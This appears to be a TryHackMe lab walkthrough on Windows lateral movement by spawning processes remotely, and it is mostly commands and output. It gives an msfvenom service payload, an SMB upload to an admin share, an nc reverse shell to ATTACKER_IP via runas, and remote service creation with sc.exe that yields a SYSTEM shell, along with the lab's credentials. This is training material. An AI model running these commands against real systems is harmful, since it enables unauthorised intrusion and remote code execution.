 # Spawning Processes Remotely Walkthrough

Connect to THMJMP2 using credentials from http://distributor.za.tryhackme.com/creds  

<pre>ssh za\\grace.brooks@thmjmp2.za.tryhackme.com</pre>

THM has provided credentials with administrative access:  
- ZA.TRYHACKME.COM\t1_leonard.summers  
- EZpass4ever  

If we try to run a reverse shell using `sc.exe` command and `net user`, we notice that the reverse shell disconnects after execution.  

Service executables are different to .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately.  

msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from being killed.  

- Create payload using msfvenom (Attack Box)
<pre>msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKERIP LPORT=4444 -o myservice.exe</pre>

- Upload payload to THMIIS using t1_leonard.summers (Attack Box)
<pre>smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/'</pre>

- Setup listener on attacker machine to receive reverse shell once `myservice.exe` has been executed

<pre>msfconsole  
use exploit/multi/handler  
exploit(multi/handler) > set LHOST lateralmovement 
exploit(multi/handler) > set LPORT 4444
exploit(multi/handler) > set payload windows/shell/reverse_tcp
exploit(multi/handler) > exploit  

Started reverse TCP handler on 10.10.10.16:4444</pre>

- Spawn a reverse shell with t1_leonard.summers access (THMJMP2)
<pre>runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"</pre>

- `runas` with `/netonly` it will not check if the provided credentials are valid
- Receive reverse shell from `runas` command using `nc` 
<pre>nc -lvp 4443</pre>  

- Create a new service by using `sc.exe` (THMJMP2 command prompt as t1_leonard.summers from nc reverse shell)
<pre>sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto  
sc.exe \\thmiis.za.tryhackme.com start THMservice-3249</pre>

- Receive reverse shell on msfconsole session
<pre>msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.119.158:4444 
[*] Sending stage (240 bytes) to 10.200.122.201
[*] Command shell session 1 opened (10.50.119.158:4444 -> 10.200.122.201:61780) at 2023-11-21 12:43:46 -0500
-

Shell Banner:
Microsoft Windows [Version 10.0.17763.1098]
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system</pre>

![Alt text](<../../Images/Spawn Process Remotely Diagram.jpg>)